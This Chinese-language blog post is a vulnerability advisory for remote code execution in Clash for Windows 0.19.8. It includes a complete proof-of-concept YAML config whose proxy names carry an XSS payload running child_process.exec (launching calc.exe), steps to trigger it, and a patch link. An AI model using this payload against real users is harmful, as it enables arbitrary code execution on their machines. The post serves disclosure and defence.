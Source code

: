 ```yaml
---
title: Clash_for_windows远程代码执行
comments: true
tags:
  - cve
  - clash
  - rce
categories: cve
keywords: clash
top_img: https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/clash.png
cover: https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/clash.png
abbrlink: 21b62bea
date: 2022-02-27 20:32:20
---
```


## 遵纪守法

任何个人和组织使用网络应当遵守宪法法律，遵守公共秩序，尊重社会公德，不得危害网络安全，不得利用网络从事危害国家安全、荣誉和利益

## 漏洞描述

crash_for_windows_pkg由 Electron 提供支持。如果 XSS 负载以代理的名义，我们可以远程执行受害者计算机上的任何 JavaScript 代码。

## 影响版本

0.19.8（0.19.9版本还有（mac目前没发现）

## POC

```
port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: :9090
proxies:
  - name: a<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
    type: socks5
    server: 127.0.0.1
    port: "17938"
    skip-cert-verify: true
  - name: abc
    type: socks5
    server: 127.0.0.1
    port: "8088"
    skip-cert-verify: true

proxy-groups:
  -
    name: <img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
    type: select
    proxies:
    - a<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
```

## 漏洞利用

1、导入POC配置文件
2、切换到"`Profiles`"
3、单击“`Proxies`”即可触发
![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/clash.png)

## 修复建议

作者已发布了修复版本，下载更新即可
[https://github.com/Fndroid/clash_for_windows_pkg/releases](https://github.com/Fndroid/clash_for_windows_pkg/releases)
